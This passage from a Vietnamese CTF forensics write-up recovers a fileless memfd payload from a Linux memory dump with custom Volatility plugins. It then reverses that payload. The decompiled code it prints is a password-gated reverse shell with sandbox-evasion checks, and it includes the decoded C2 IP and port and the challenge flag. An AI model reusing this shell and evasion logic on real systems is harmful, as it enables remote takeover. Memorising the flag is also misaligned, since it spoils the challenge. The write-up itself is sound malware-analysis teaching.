Do `22758` chỉ là inode number, cần lấy địa chỉ `struct inode` tương ứng trong kernel memory. Vì anonymous memfd không có pathname thông thường, vậy viết một plugin duyệt FD 4 của PID 1451 và lấy trực tiếp địa chỉ inode.

```python
cat > ~/tools/volatility/volatility/plugins/linux/fd1451.py <<'PY'
import volatility.plugins.linux.pslist as linux_pslist
class linux_fd1451(linux_pslist.linux_pslist):
    def calculate(self):
        for task in linux_pslist.linux_pslist.calculate(self):
            if int(task.pid) != 1451:
                continue
            for filp, fd in task.lsof():
                if int(fd) == 4:
                    inode = filp.dentry.d_inode
                    yield inode.obj_offset
    def render_text(self, outfd, data):
        for inode_addr in data:
            outfd.write(
                "INODE_ADDR=0x{0:x}\n".format(
                    int(inode_addr)
                )
            )
PY
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_fd1451
```



Cuối cùng lấy được 0xffff914f7c168870 là địa chỉ struct inode của anonymous file tại FD 4.

Tiếp tục dùng lại plugin linux_find_file với địa chỉ inode này để trích xuất payload stage 2.

```bash
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_find_file -i 0xffff914f7c168870 -O recover/fd4.bin
```



Dump ra nhưng file thực chất chỉ rỗng, vì linux_find_file không đọc được các memory page của anonymous memfd. Do đó cần viết plugin riêng để lấy trực tiếp inode từ FD 4 và dump các page của payload.

```python
cat > ~/tools/volatility/volatility/plugins/linux/dump_fd.py <<'PY'
import volatility.plugins.linux.find_file as find_file
import volatility.plugins.linux.pslist as pslist
class linux_dump_fd(find_file.linux_find_file, pslist.linux_pslist):
    def __init__(self, config, *args, **kwargs):
        find_file.linux_find_file.__init__(self, config, *args, **kwargs)
        pslist.linux_pslist.__init__(self, config, *args, **kwargs)
        config.add_option(
            "FD",
            default=None,
            type="int"
        )
    def calculate(self):
        for task in pslist.linux_pslist.calculate(self):
            for filp, fd in task.lsof():
                if int(fd) != self._config.FD:
                    continue
                inode = filp.dentry.d_inode
                with open(self._config.outfile, "wb") as output:
                    for page in self.get_file_contents(inode):
                        output.write(page)
                yield task.pid, fd, inode.i_size
    def render_text(self, outfd, data):
        for pid, fd, size in data:
            outfd.write(
                "PID={0} FD={1} SIZE={2}\n".format(
                    pid, fd, size
                )
            )
PY
vol2 -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_dump_fd -p 1451 --fd 4 -O recover/fd4.bin
```



## 7. Reverse payload `fd4.bin`

Vậy fd4.bin là một file thực thi ELF 64-bit dạng PIE, đã bị stripped. Tiếp tục sử dụng IDA để decompile. Check ngay hàm main đầu tiên.



```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  __int64 v3; // rbx
  size_t v4; // rbx
  size_t v5; // rbx
  char s1[48]; // [rsp+0h] [rbp-A0h] BYREF
  char buf[48]; // [rsp+30h] [rbp-70h] BYREF
  struct sockaddr addr; // [rsp+60h] [rbp-40h] BYREF
  char s[13]; // [rsp+73h] [rbp-2Dh] BYREF
  int fd; // [rsp+80h] [rbp-20h]
  int j; // [rsp+84h] [rbp-1Ch]
  int i; // [rsp+88h] [rbp-18h]
  int v14; // [rsp+8Ch] [rbp-14h]
  strcpy(s, "((1(+1.&'1*-");
  v14 = 0;
  v3 = sysconf(85) / 1024;
  if ( v3 * (sysconf(30) / 1024) <= 999 )
    ++v14;
  if ( sysconf(84) <= 1 )
    ++v14;
  if ( (unsigned __int64)sub_11F5(84, a2) <= 0x3C )
    ++v14;
  if ( v14 > 2 )
    exit(1);
  for ( i = 0; ; ++i )
  {
    v4 = i;
    if ( v4 >= strlen(s) )
      break;
    s[i] ^= 0x1Fu;
  }
  fd = socket(2, 1, 0);
  addr.sa_family = 2;
  *(_WORD *)addr.sa_data = htons(0x115Cu);
  *(_DWORD *)&addr.sa_data[2] = inet_addr(s);
  connect(fd, &addr, 0x10u);
  dup2(fd, 0);
  dup2(fd, 1);
  dup2(fd, 2);
  strcpy(s1, "WK]d\\/ros,k,sf@y.s,s,ll@}jk@lk.ss@{,k,|k+}s,b");
  for ( j = 0; ; ++j )
  {
    v5 = j;
    if ( v5 >= strlen(s1) )
      break;
    s1[j] ^= 0x1Fu;
  }
  read(fd, buf, 0x2Eu);
  buf[strcspn(buf, "\n")] = 0;
  if ( !strcmp(s1, buf) )
    execve("/bin/sh", nullptr, nullptr);
  return 0;
}
```

### 7.1. Kiểm tra môi trường phân tích

```c
v14 = 0;

v3 = sysconf(85) / 1024;
if ( v3 * (sysconf(30) / 1024) <= 999 )
    ++v14;

if ( sysconf(84) <= 1 )
    ++v14;

if ( (unsigned __int64)sub_11F5(84, a2) <= 0x3C )
    ++v14;

if ( v14 > 2 )
    exit(1);
```

Ba điều kiện được kiểm tra:

- RAM không quá khoảng 999 MB.

- Máy chỉ có tối đa 1 CPU.

- Thời gian hệ thống hoạt động không quá 60 giây.

Mỗi điều kiện đúng sẽ tăng v14. Khi cả ba đều đúng, v14 = 3 và chương trình thoát.

### 7.2. Giải mã địa chỉ C2

Ban đầu:

```c
strcpy(s, "((1(+1.&'1*-");
```

Sau đó từng byte được XOR với 0x1F:

```c
s[i] ^= 0x1F;
```

### 7.3. Kết nối C2

```c
fd = socket(2, 1, 0);
addr.sa_family = 2;
*(_WORD *)addr.sa_data = htons(0x115C);
*(_DWORD *)&addr.sa_data[2] = inet_addr(s);
connect(fd, &addr, 0x10u);
```

Các giá trị:

- `2        = AF_INET`

- `1        = SOCK_STREAM`

- `0x115C   = 4444`

Payload tạo kết nối TCP đến:

```text
<IP>:4444
```

### 7.4. Chuyển socket thành terminal

```c
dup2(fd, 0);
dup2(fd, 1);
dup2(fd, 2);
```

Socket được gán vào:

- `0 = stdin`

- `1 = stdout`

- `2 = stderr`

Do đó shell được tạo sau này sẽ giao tiếp trực tiếp qua kết nối C2.

### 7.5. Giải mã mật khẩu và mở shell

Chuỗi mã hóa:

```c
strcpy(s1, "WK]d\\/ros,k,sf@y.s,s,ll@}jk@lk.ss@{,k,|k+}s,b");
```

Tiếp tục XOR từng byte với 0x1F:

```c
s1[j] ^= 0x1F;
```

Xác thực rồi mở shell.

```c
read(fd, buf, 0x2Eu);
buf[strcspn(buf, "\n")] = 0;

if ( !strcmp(s1, buf) )
    execve("/bin/sh", nullptr, nullptr);
```

Payload đọc tối đa 46 byte từ C2, xóa ký tự xuống dòng rồi so sánh với chuỗi vừa giải mã.

Nếu đúng, nó chạy:

```text
/bin/sh
```

Vì stdin, stdout và stderr đã được chuyển sang socket nên đây là một reverse shell có mật khẩu.

Vậy giờ cần giải mã 2 chuỗi kia.

```python
s = "((1(+1.&'1*-"
s1 = "WK]d\\/ros,k,sf@y.s,s,ll@}jk@lk.ss@{,k,|k+}s,b"
print(''.join(chr(ord(c) ^ 0x1F) for c in s))
print(''.join(chr(ord(c) ^ 0x1F) for c in s1))
```



### Kết luận hàm `main`

fd4.bin là payload reverse shell có cơ chế chống sandbox. Nó giải mã địa chỉ 77.74.198.52, kết nối đến cổng 4444, chuyển socket thành stdin/stdout/stderr và yêu cầu mật khẩu:

```text
HTB{C0mpl3t3ly_f1l3l3ss_but_st1ll_d3t3ct4bl3}
```

Khi mật khẩu chính xác, payload thực thi /bin/sh. Đây đồng thời là flag của challenge.

## 8. Flag

```text
HTB{C0mpl3t3ly_f1l3l3ss_but_st1ll_d3t3ct4bl3}
```
